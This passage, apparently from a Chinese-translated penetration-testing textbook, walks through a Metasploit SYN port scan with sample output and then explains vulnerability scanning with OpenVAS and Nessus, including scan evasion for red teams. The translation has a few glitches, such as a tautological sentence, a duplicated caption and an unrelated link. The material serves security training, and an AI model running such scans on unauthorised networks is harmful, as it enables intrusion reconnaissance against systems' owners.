       RHOSTS     192.168.1.0/24   yes       The target host(s), see https://githu

                                             b.com/rapid7/metasploit-framework/wiki/

                                             Using-Metasploit

       SNAPLEN    65535            yes       The number of bytes to capture

       THREADS    1                yes       The number of concurrent threads (max

                                              one per host)

       TIMEOUT    500              yes       The reply read timeout in milliseconds

    msf auxiliary(scanner/portscan/syn)>> set INTERFACE ens33

    INTERFACE => ens33

    msf auxiliary(scanner/portscan/syn)>> run
    ```

3. 选择好端口和主机后（可以是整个 CIDR 块、主机列表或单个主机），运行模块。

    Metasploit 会执行 Ruby 脚本并呈现结果。以下是结果的摘录：

    ```
    msf auxiliary(scanner/portscan/syn)>> run

    [+] TCP OPEN 192.168.4.10:22

    [+] TCP OPEN 192.168.4.15:22

    [+] TCP OPEN 192.168.4.20:22

    [+] TCP OPEN 192.168.4.99:22

    [+] TCP OPEN 192.168.4.101:22

    [+] TCP OPEN 192.168.4.136:22

    [+] TCP OPEN 192.168.4.183:22

    [+] TCP OPEN 192.168.4.1:53

    [+] TCP OPEN 192.168.4.178:53

    [+] TCP OPEN 192.168.4.196:53

    [+] TCP OPEN 192.168.4.202:53
    ```


运行 Metasploit 中的端口扫描的一个优势是它会将结果保存在数据库中，后续可以直接调用，无需每次重新执行扫描。

当然，你也可以在 `msfconsole` 中直接运行 `nmap`，Metasploit 同样会把结果保存到数据库中。无论使用哪种方式，结果都相同，因为网络协议规则是普适的，只要有应用程序，就有应用程序，不管是哪个程序发送连接请求。

### 漏洞扫描

- `[open ports]` 和甚至是 `[applications]` 在这些端口上正在监听，这只是一个好的开始。你可以在对这些应用程序中可能存在的漏洞进行大量研究后，开始在 `open ports` 处盲目尝试和摸索。你也可以直接找到大量 `exploits` 并将其抛向在 `open ports` 上的应用程序。这可能是一种简单的方法，用来检查是否存在漏洞。你只需将你能找到的所有 `exploits` 与目标进行比对。这种做法有几个问题。第一个问题是，你可能会导致目标系统出现故障，而你并不想要这样。盲目测试可能会产生意外结果，而从伦理角度来说，你的目标之一是不造成伤害。

- 当然，任何类型的安全测试都可能导致意外结果和失败。然而，你的工作是尽可能地控制它，并确保你的客户或雇主了解你的测试可能带来的后果。你不应该向客户说明你只是随意向他们的系统抛出大量 `exploits`，而对其影响缺乏了解，导致他们可能出现宕机。你的工作是控制测试——要了解自己在做什么以及可能的结果。

- 另一个问题是，如果你正在进行红队测试，目标系统对你的攻击毫不知情，你需要确保他们不会检测到你，或者至少要尽一切努力避免被发现。盲目对大量系统（包括那些可能根本没有受影响的应用程序）进行大量 `exploits` 的做法会产生噪音，一旦有检测能力就会被发现，这意味着你失败了。

- 更好的做法是使用 `vulnerability scanner`，它采用智能的方式识别潜在漏洞。`vulnerability scanner` 会识别 `open ports` 和监听的 `applications`，然后根据这些 `applications` 判断可能的漏洞。随后，它会运行为这些漏洞预定义的测试。扫描器的目标不是 compromising 系统，而是仅仅识别潜在漏洞。

- 这并不保证扫描器识别出的就是可利用的漏洞。它意味着扫描器根据与目标系统的交互以及扫描器拥有的数据，认为某个点可能是漏洞。这被称为 `false positive`。任何扫描器发现的问题都需要手动验证。这可能包括检查扫描器呈现的实际交互——有时仅凭返回码而未查看实际数据，例如。也可能需要重新执行扫描器执行的测试。漏洞扫描器是工具，不应被视为测试的终点，而是起点。尽管扫描器功能强大，但它们并非最终。

- 从历史角度看，网络漏洞扫描器自 1990 年代初期就存在。第一个由 Dan Farmer 和 Wietse Venema 开发的工具是 Security Analysis Tool for Auditing Networks (SATAN)。SATAN 后来衍生出 Security Auditors Research Assistant (SARA) 和 Security Administrator's Integrated Network Tool (SAINT)。SATAN 主要使用 Perl 编写，并提供 Web 界面。虽然现代漏洞扫描器主要使用其他语言，但它们通常也使用 Web 界面。其中一个非常流行的扫描器是 Nessus。我们稍后会看 Nessus，但先从与 Nessus 相关的 OpenVAS 开始。

### OpenVAS

- SATAN 是开源的，意味着你可以查看 SATAN 的所有实现，并且如果你愿意，可以自行添加模块来扩展其功能。即使你找到 SATAN 的副本，也能查看其源代码。

- 2000 年代初期，另一个开源漏洞扫描器是 Nessus。它最初于 1998 年以免费漏洞扫描器的形式发布，并在 2005 年（公司在三年前成立）关闭源代码，使后续开发全部专有。当时，已有的 Nessus 源码是第 2 版，Tenable 的第一个版本是第 3 版。第 2 版的源码是开放的，于是两个独立项目相继创建，其中一个是将 Nessus 第 2 版源码（由 Nessus 开发者放弃）fork 为新项目的基础。

- 其中一个 fork 产生了 Open Vulnerability Assessment System (OpenVAS)。最初，OpenVAS 与 Nessus 完全相同，正如你所期待的。随着时间的推移，OpenVAS 发展出自己的应用架构，采用了 Nessus 未明确使用的多层结构。Nessus 最初拥有本地客户端用于管理扫描，而 OpenVAS 继续使用相同的本地客户端。OpenVAS 通过 Greenbone Security Assistant (GSA) 作为用户界面。今天，GSA 通过 Web 界面访问。你可以在 Figure 5.7 中看到 GSA 的登录界面。



**FIGURE 5.7** Greenbone Security Assistant

- OpenVAS 允许你拥有多个用户，每个用户可能拥有不同的权限。有些用户可以创建扫描，而有些用户只能查看扫描结果。还有用户可以创建用户并管理 OpenVAS 安装。除了用户，OpenVAS 支持角色。角色内的权限可以修改，甚至可以新建角色。安装 OpenVAS 时，管理员用户会在设置过程中自动创建，并生成一个随机密码。

#### 在 OpenVAS 中设置目标

- 在 OpenVAS 中，一次扫描包含许多组件。创建扫描时，需要指定目标或目标集合。创建目标也需要一些信息。你需要提供想要测试的 IP 地址集合。你也可以排除某些地址。为了说明，你可能会在目标列表中提供一个网络段，但该段内可能包含脆弱系统，因此你可能希望告诉 OpenVAS 不对该地址进行测试。Figure 5.8 展示了在 OpenVAS 中创建目标的对话框，里面显示了 IP 地址以及排除项。



**FIGURE 5.8** Creating a target in OpenVAS

- 你还可以定义要扫描的端口范围。漏洞扫描器如 OpenVAS 会扫描端口以确定应集中测试的端口。你可以指定要测试的端口范围，这有助于限制测试范围，特别是当你只关注特定服务时。这是控制 OpenVAS 作业范围的一种方式。

- 你不总是进行黑盒测试，即不总是没有任何目标信息。有时你会拥有目标的详细信息，这些信息能帮助你更深入地了解目标组织面临的漏洞。例如，你可能会被提供凭据，这些凭据可以让 OpenVAS 通过本地凭据登录系统，从而查找本地漏洞而非仅限网络或远程漏洞。凭据在 OpenVAS 中使用后，会用于登录系统。一旦认证成功，扫描器即可开始查找本地漏洞。

- 从目标窗口创建凭据的同时，也可以在配置菜单中创建凭据。当您指定要创建凭据时，无论是在目标创建窗口中，还是在配置菜单的凭据选项中，都会出现如下图所示的窗口（[Figure 5.9）。您可以创建适用于多种协议、使用不同认证方案的凭据。这可能仅是用户名和密码，也可能是使用 SSH 密钥替代密码。凭据创建完成后，它们可以应用于目标。您还可以指定特权提升过程。这是一套独立的凭据。这是一种您无法直接登录的用户账户，但在您登录后可以提升权限。



**FIGURE 5.9** 创建 OpenVAS 中的凭据

这个问题的一个缺点是它假设同一套凭据在多个系统中通用，因为每个协议只能使用一套凭据。如果您没有集中式用户账户存储，也可以将目标分组以匹配凭据。

#### OpenVAS 中的扫描配置

扫描的核心在于扫描配置。扫描配置定义了针对目标测试哪些插件（NVT）。默认情况下，OpenVAS 定义了八个扫描配置。您可以在 `Figure 5.10` 中查看这些扫描配置的列表，以及本系统中创建的一个扫描配置。您可以看到每个配置中已启用的网络漏洞测试（NVT）数量。NVT 按家庭分类以便组织。您可以启用整个家庭，或仅启用单个 NVT。您会发现有一个名为 `Empty` 的配置，其中未启用任何 NVT。创建一个仅包含少量 NVT 的新配置，会得到类似 `MyScan` 配置的结果，它仅启用了三个 NVT 和两个家庭。



**FIGURE 5.10** OpenVAS 扫描配置

创建扫描配置时，点击屏幕左上角带星号的小蓝色图标。随后系统会要求您输入名称并选择一个基础模板。可选的基础模板包括空配置（如我在 `MyScan` 中使用的），以及全套/快速配置，后者包含所有 NVT。因此，您可以从零开始构建，也可以从完整的集合中削减。您会根据自身需求决定是从头开始逐步构建，还是从大块内容中削减。创建后，您即拥有一个可用的配置。创建过程仅需命名并选择基础模板。随后您可能会对其进行调优，以便针对目标网络运行显著的测试。这并不意味着测试会盲目运行，OpenVAS 会在初始扫描后根据发现的内容决定运行哪些测试。当您准备好选择要运行的测试时，需要编辑扫描配置。您首先会确定要启用的家庭，如 `Figure 5.11` 所示的家庭列表的一部分。需要考虑的还有：是否启用家庭、选择哪些 NVT 以及家庭在 NVT 随时间的推移而增加时如何保持更新。您可以选择保持配置静态，或让 OpenVAS 在新增 NVT 时自动启用它们。

FIGURE 5.11 OpenVAS NVT 家庭

**FIGURE 5.11** OpenVAS NVT 家庭

打开家庭后，会看到该家庭下所有 NVT 的列表。`Figure 5.12` 展示了 Cisco 家庭下的 NVT 列表。例如，Cisco NVT 中包含可调的超时值，若不想使用默认值可进行修改。该列表让您精确选择要包含的 NVT，无需使用大而宽泛的配置。您可以根据测试环境精准定制扫描配置。



**FIGURE 5.12** OpenVAS NVT 选择

此时，您已拥有一个可运行的扫描配置。接下来需要创建任务来执行该配置。您可以将任务视为一次性执行或定时任务。

#### 扫描任务

扫描配置和目标是创建扫描任务的必要元素。您可以在创建扫描任务时直接创建目标，它会像在目标配置页面中创建的目标一样持久。扫描配置则必须事先完成，除非您使用预包装的扫描配置。进入 `Scans` 菜单并选择 `Tasks`，您会看到类似 `Figure 5.13` 的界面，其中显示正在运行的扫描任务。任务数量越多，图表会随之变化。



**FIGURE 5.13** OpenVAS 任务

开始扫描时，左上角会出现一个类似纸张带星号的图标。鼠标悬停后点击 `New Task`，会弹出 `Figure 5.14` 所示的对话框。您需要从下拉列表中选择目标。如果尚未创建目标，可点击蓝色星号图标创建并保存目标。您还可以根据严重程度或自定义过滤器创建告警，并通过电子邮件、HTTP GET、SMB、SNMP 或其他连接发送告警。此外，还需选择扫描配置，可以是您创建的配置或默认配置。



**FIGURE 5.14** OpenVAS 任务创建

您可以为扫描任务设置计划，但默认情况下没有计划。任务创建后会处于等待状态，直至您手动启动。使用计划可以让扫描按您希望的频率运行。您可能不想定期运行，也可能暂时不想立即执行。您可以指示 OpenVAS 仅执行一次，如 `Figure 5.14` 所示。目标和扫描配置会在有目标配置时自动填充。扫描配置会填充列表中的第一个配置。这两个配置元素是您需要检查的最重要因素。

这并不意味着没有其他值得关注的要素。如果您拥有大型网络和多台扫描器，可能需要选择要使用的扫描器。您还可以定义源接口，以便在扫描器拥有多个网络接口时指定使用哪个接口。您还可以决定扫描目标的顺序，这可能取决于您是否想隐藏活动，或希望通过随机选择主机来使行为不那么明显。您还可以通过限制同时扫描的主机数量以及单个主机上并发测试的最大数量来帮助实现上述目标。

- `[启动扫描](https://wiki.example.org/feynmans_learning_method)`时，需要查看您的任务列表，并点击类似音频或视频播放器启动按钮的绿色箭头。扫描在您点击启动后才会运行。仅创建扫描即表示您已设置其参数，并不表示已启动扫描。这里的调度功能很有用，因为 OpenVAS 会在您发出指令时自动开始扫描，而无需您手动启动。

### Scan Results

在扫描进行期间，您可以监控扫描结果。此外，您还能够回顾所有已完成的扫描以及历史漏洞。`Scans dashboard` 会提供图表，帮助可视化漏洞随时间的变化，从而让您判断目标系统的安全态势是否在改善。您可以在 Figure 5.15 查看仪表盘。图表主要聚焦于报告，但这些图表并未展示您所有扫描中漏洞的整体情况。在该图的底部，您可以看到本次安装中已运行的两次扫描的概览。即时扫描是通过 `Task Wizard`（快速启动方式）完成的。

`Scans` 菜单提供了多种查看结果的方式。我们首先通过 `Results` 页面来查看。该页面列出了所有扫描结果。您还能看到更多图表。图表和结果列表在 Figure 5.16 中。虽然图表有趣，但结果列表包含一些重要信息。第一列显示漏洞的简短名称，这应能让您大致了解漏洞的内容。至少，您能从漏洞名称中获取关于相关服务或设备的信息。

此外，您还能获得其他有用信息。在摘要之上，您会看到严重程度。严重程度包括 `High`、`Medium`、`Low`。在严重程度左侧是解决方案类型。示例中显示的全部是厂商补丁。您可能还会看到缓解措施（`mitigation`），即如果漏洞被利用，存在减轻影响的方法。也可能出现“无可用修复”情况。图 5.16 所示的全部问题是有厂商补丁的，但也存在无补丁的问题以及有缓解措施的问题。



**FIGURE 5.15** OpenVAS Scans dashboard



**FIGURE 5.16** OpenVAS Results list

在严重程度右侧，显示的是 `QoD`（质量检测度）。`QoD` 表示 OpenVAS 对漏洞是否为真实正例的置信度。在某些看似 `macOS` 漏洞中，`QoD` 列会出现非常高的数值。鉴于这些系统运行的是最新的 `macOS` 并且在扫描时已全部打补丁，这些高置信度数值具有误导性。要弄清楚 OpenVAS 依据什么判断为真实正例，需要查看关联的 `NASL` 文件。

在最右侧列，您可以访问操作，如 Figure 5.17 所示。由于报告会在 OpenVAS 实例存续期间保留，您可能需要对发现进行必要的修改。正如 `macOS` 发现的情况，我可以添加一个覆盖（`override`）。如前所述，并非每个发现都如 OpenVAS 所呈现。有些可能是误报，例如。您可以通过使用覆盖将发现的严重程度设置为“误报”。在 Figure 5.17 中可以看到用于设置覆盖参数的对话框，包括将严重程度设置为误报的选项。


**FIGURE 5.17** Setting an override

当然，误报不是唯一可以修改严重程度的情形。您可以提高或降低严重程度。如果您比 OpenVAS 更了解情况，尤其是当您为被测试的公司工作或与其紧密合作而非作为严格对手时，您可能会发现需要调整严重程度。如果已有缓解措施，您可能希望降低严重程度。也可能有理由提高 OpenVAS 提供的严重程度，因为这是供软件厂商通用的发现。

您还可以在覆盖中设置其他参数，而不只是严重程度。如果您要修改严重程度，通常还会添加注释，说明更改的原因和目的。这让所有拥有 OpenVAS 访问权限的人员能够审查更改并了解背后的原因。除了修改严重程度等参数外，您还可以为每个发现添加注释。

通过使用注释和覆盖，OpenVAS 可被视为一种漏洞管理工具，而不只是单纯的漏洞扫描仪。您可以用它进行历史追溯、识别已知漏洞，或修改不同参数。存储的这些信息对负责保护系统和网络的任何人都非常有价值，因为他们时刻在与漏洞作斗争。历史信息，尤其是缓解措施以及已采取的 `remediation` 步骤，对安全专业人员非常有用。

### Nessus

`Nessus` 是 `OpenVAS` 的父项目，因此值得一看，尤其是观察其与 `OpenVAS` 的路径 `diverged`（背离）之处。虽然 `Nessus` 是商业产品，但提供了家庭许可证，您可以在家庭网络上使用它，与 `OpenVAS` 进行比较，并了解另一种漏洞扫描思路。登录后，您会进入扫描列表页面，初始时列表为空。要启动扫描，请点击 `New` 按钮，这将带您进入可用的扫描策略列表。您可以在 Figure 5.18 中看到部分内置扫描策略。部分策略标有 `Upgrade`，表示这些策略仅在商业版中提供，`Home` 许可证中不可用。

如果我们以 `Basic Network Scan` 为起点，即可开始选择目标并进行自定义。Figure 5.19 展示了 `Basic Network Scan` 的配置设置。第一屏显示您需要提供扫描的名称。请记住，您在此创建的是配置，可多次运行该配置，每次运行都会自动记录时间戳，无需您自行添加日期时间。建议为配置起一个有意义的名称，以便与其他配置区分。

